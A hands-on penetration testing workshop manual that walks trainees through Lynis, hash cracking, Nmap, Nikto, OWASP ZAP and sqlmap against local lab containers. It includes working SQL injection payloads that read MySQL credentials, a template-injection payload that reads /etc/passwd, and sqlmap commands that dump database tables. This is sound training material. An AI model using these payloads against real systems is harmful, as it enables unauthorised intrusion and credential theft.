




# Pentesting 101 - Workshop Exercise Instructions

##Understanding the Lab Environment 
### Basic Instructions
- You will need to use the root username and password whenever you need to authenticate to the computer. Username: **root**, Password: **we45**. There's another user in the VM, with Username: **we45** and password: **we45**
- All the examples and code from the lab are yours to keep. 
- We have used multiple tools for the lab. We have only used Open Source tools as we are only allowed to use open source tools, due to commercial licensing restrictions. 
- We also have a number of vulnerable machines running in Docker Containers on this Virtual Machine. Some of these are available open source and some of them have been developed by us at we45 for our training workshops
- You will need to use the Linux Command line to run all of the exercises today. However, please don’t fret if you are not familiar with Linux. The commands to run everything have been documented in the exercise manual.

###Simple Commands
* To open a new Terminal Tab -> `Ctrl + Shift + T` (not Command for Mac)
* To open a new Terminal Window -> `Ctrl + Shift + N` (not Command for Mac)
* To copy and paste in the terminal -> `Ctrl + Shift + C/V`
* Use the Browser from the Desktop and not from the Top Bar Menu
* Regularly run `./kill_exited_dockers.sh`


### Security Instructions
* You will need to use the root username and password whenever you need to authenticate to the computer. Username: root, Password: tester
* All the examples and code from the lab are yours to keep. 
* We have used multiple tools for the lab. We have only used Open Source tools as we are only allowed to use open source tools, due to commercial licensing restrictions. 
* We also have a number of vulnerable machines running in Docker Containers on this Virtual Machine. Some of these are available open source and some of them have been developed by us at we45 for our training workshops
* You will need to use the Linux Command line to run all of the exercises today. However, please don’t fret if you are not familiar with Linux. The commands to run everything have been documented in the exercise manual. 


## Lynis - Audit System Security Settings
- Open the **Terminal** on your Desktop
- Run command `lynis audit system`
- Observe the results

## Scoping for a Pentest
Acme HCM is a leading SaaS application that delivers cutting-edge Human Capital Management Solutions to their customers. Over the years, Acme has grown as a product to provide plain-vanilla HCM solutions to highly customizable and platform-like abilities on their HCM system. They have embraced Agile Development Practices and Continuous Delivery principles to deliver applications to their customers at a rapid-pace. They have hosted their environment on AWS and have multiple regions to cater to their customers. 

They are planning to conduct a Penetration Test against their environment and application stack. 

This is their network diagram: 



Based on this High-Level Network Diagram. Please identify the following: 

* What would be your ideal scoping for this pentest - Consider multiple conditions like Risk, Compliance, Apps, etc in your decision
* How would you prioritize the pentesting efforts? Is there something you can do other than a pentest for some aspects of security testing
* What are the different security considerations you would look at for different aspects of the proposed penetration test?

## Cracking MD5 Hashes
- Open the **Terminal** on your Desktop
- Please navigate to `Downloads` directory withn command `cd /home/we45/Downloads/`
- Type the command: `john-the-ripper --format=raw-md5 md5_hashes.txt`
- Type the command: `john-the-ripper --format=raw-md5 md5_hashes.txt --show`

## SQL Injection 
### Pre-Processing
* Start the NodeJS Stack by running the following commands: 
	* Open up the Terminal
	* Command: `cd /home/we45/Desktop/`
	* Command: `./start_node.sh`
	* It will run a full stack deployment of a Front-end service, a Web Service and a Datbase. The Front-end service runs on port 5000, the Backend Web Service runs on port 3000. We will be using the Web Service (3000) for this exercise
	* Open the application `Insomnia` on your Desktop. This allows you to interact with the Web Service. Its an HTTP Client

### Exercise Instruction
In Insomnia, you should automatically be on the Cut the Funds Workspace. This is the list of requests and responses for the webservice. You'll be using this tool to interact with the API. In the sidebar, click on the "Login Manager" request



Execute the Request, by clicking "Send" in the main window


If you are successfully logged in, you should get an 200 Response with an Authorization Token. Copy that token and paste it in Mousepad/etc


Now in the sidebar, go to the SQLi Search Request. In the main page. you can change the search json attribute to any value you want. Search for something simple like a country for now


Now try forcing an error, by injecting a single quote in the search param. It should throw an error. If it does, you can be sure that the app you are testing is vulnerable to SQL Injection

`Chile'`


Now that we have established that SQL Injection is possible, let's start exploring SQL Injection Attacks against the application

	```
	India' UNION ALL SELECT null, (SELECT @@datadir)--  
	India' UNION ALL SELECT null, (SELECT @@version)-- 
	India' UNION ALL SELECT null, (SELECT user())-- 
	India' UNION ALL SELECT null, (SELECT database())--  
	India' UNION ALL SELECT null,(SELECT concat(user,':',authentication_string) from mysql.user LIMIT 1)-- 
	```
* Each of the above is an SQL Injection payload. Copy each payload and inject them in the search parameter by pasting the payload in the search field in the top right corner. Click the search button to execute the payload
* Observe the results

## Nmap Basic Commands
- Open the **Terminal** on your Desktop
- You should be in folder `/home/tester/Desktop/scripts/`, In order to verify, you can type the command `pwd`.
- Run the command `python nowasp.py`
	- This should show up an output like this:
	
		```
		Starting Container ctf at port 80
		Running Container with ID XXXXX
		```
- To Stop the container at any time, press `Ctrl + C` and it will exit.
- Type the following command in the terminal and press ENTER to perform a default TCP scan on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a default UDP scan on the localhost IP with 127.0.0.1 `nmap -sU 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a TCP scan on a specific set of TCP Ports (1 - 65535)  on the localhost with IP 127.0.0.1 `nmap -sT -p1-65535 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform OS fingerprinting to identify the OS of the localhost with IP 127.0.0.1 `nmap -O 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a TCP SYN scan on the localhost with IP 127.0.0.1 `nmap -sS 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a default TCP scan with No Ping on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1 -Pn`
- Type the following command in the terminal and press ENTER to perform a slow TCP scan, with traceroute on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1 -Pn -T0 --traceroute`

## Nmap NSE Script - Scans
* Type the following command in the terminal and press ENTER to perform a discovery scan on the localhost with IP 127.0.0.1 `nmap --script discovery 127.0.0.1 -Pn`
* Type the following command in the terminal and press ENTER to perform a vulnerability scan on the localhost with IP 127.0.0.1 `nmap --script vuln 127.0.0.1 -Pn`

##Nikto - Web Application Scanning
- Open the **Terminal** on your Desktop
- You should be in folder `/home/tester/Desktop/scripts/`, In order to verify, you can type the command `pwd`.
- Run the command `python nowasp.py`
	- This should show up an output like this:
	
		```
		Starting Container ctf at port 80
		Running Container with ID XXXXX
		```
- Launch a new Terminal window from your Desktop
- To run nikto on the web application running on TCP port 80 on localhost, type the following command in the terminal and hit Enter/return.
`nikto -h 127.0.0.1`
- Run Nikto and output HTML result: `nikto -h 127.0.0.1 -Format HTM -output nowasp.html`

##OWASP DirBuster - OWASP ZAP
- Open the **Terminal** on your Desktop
- You should be in folder `/home/tester/Desktop/scripts/`, In order to verify, you can type the command `pwd`.
- Run the command `python nowasp.py`
	- This should show up an output like this:
	
		```
		Starting Container ctf at port 80
		Running Container with ID XXXXX
		```
- Launch a new Terminal window from your Desktop
- Open OWASP ZAP from your Desktop. Wait for it to load. When it loads, click on **Start**
- Open Chrome from your Desktop
- Go to the FoxyProxy icon as you can see from here


- In **Select Mode**, choose OWASP ZAP and Close. This turns the icon Blue
- In the Chrome address bar, type "http://localhost"
- Now, if you go back to the OWASP ZAP Window, it would have started capturing requests and responses from Localhost. 
- Let's now perform a Directory Bruteforce 
- Click the **+** button in the lower panel in OWASP ZAP


- Choose **Forced Browse** from the Drop-down. You are now in the forced browse panel.
- Select "Site" and choose any of the lists and click on the Play Button to start the Forced Browsing Enumeration. Observe the results. 



##Passive Scan Plugins - OWASP ZAP
- Choose **Alerts** from the ZAP Lower Panel. You are now in the Alerts panel.


- Observe the results and peruse the results.

## Server-Side Template Injection
* Start Flask Docker Container: 
	* 	Command: `cd ~/Desktop/start_flask.sh`
* Open the Chrome Browser and navigate to a non-existent path: 
	* `http://localhost:5050/non_existent_path`
* Substitute the `non_existent_path` with one of the payloads below.
* Payloads: 
	* `{{ config.items() }}`
	* `{{''.__class__.mro()[1].__subclasses__()[40]('/etc/passwd').read()}}`

## XML External Entities
* 
* Upload safe demo from `Samples` directory
* Upload unsafe demo `Pass.docx` from `Samples` Directory

## Automated Exploitation - SQL Injection with SQLMap
- Get the csrfmiddlewaretoken and session_id from the application.
- Substitute them in the request txt file in the sql_vul.txt
- run the command: 
	
	```
	python sqlmap/sqlmap.py -r sql_vul.txt -p search
	python sqlmap/sqlmap.py -r sql_vul.txt -p search --dbs
	python sqlmap/sqlmap.py -r sql_vul.txt -p search -D public --tables
	python sqlmap/sqlmap.py -r sql_vul.txt -p search -D public -T ctf_appointment --dump

	```